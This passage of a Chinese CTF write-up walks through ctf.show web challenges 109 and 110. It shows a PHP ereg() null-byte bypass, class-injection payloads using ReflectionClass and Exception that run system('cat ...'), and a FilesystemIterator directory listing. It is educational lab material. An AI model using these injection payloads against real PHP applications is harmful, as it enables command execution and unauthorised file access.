 不过这里的 `ereg()` 存在截断漏洞, `%00` 后的字符串不解析

构造 `aa%00778` 来绕过 `ereg()` 的检测

```
http://be29cb33-099a-45a3-ab65-e1e1ea722922.challenge.ctf.show/?c=aa%00778
```

## web109

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101751120.png)

v1 v2 必须含有字母

想到了 `hex2bin` `base64_encode` 这些函数, 但是前面有一个 `new`

搜了一下发现一个 stdClass, 没有任何字段和方法

本地试了一下报错了, 发现需要 `__toString` 魔术方法才能正常 echo 不报错

于是想到了之前有一题里用到了 php 的反射类 ReflectionClass (暂时只知道这个...)

之后就是注意闭合括号, 注释掉 v2 后面的内容

```
http://a243c3c5-6214-47b5-a8d1-36644e087a29.challenge.ctf.show/?v1=ReflectionClass&v2='stdClass');system('cat fl36dg.txt');//
```

hint 的方法, 用的是 Exception 类

```
?v1=Exception&v2=system('cat fl36dg.txt')
?v1=Reflectionclass&v2=system('cat fl36dg.txt')
```

发现竟然不用闭合括号...

## web110

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101805550.png)

过滤的挺多的...

hint 提示是 `FilesystemIterator` 类

利用 `FilesystemIteraor` 的构造方法列目录

[https://www.php.net/manual/zh/filesystemiterator.construct.php](https://www.php.net/manual/zh/filesystemiterator.construct.php)

`getcwd()` 返回当前工作目录, 即 /var/ww/html

类里面刚好有 `__toString` 可以 echo 输出

```
http://566fb044-3805-43c9-9359-d09e3c07ddde.challenge.ctf.show/?v1=FilesystemIterator&v2=getcwd
```

flag 在 txt 里面... (本来以为是要读 php 文件的)
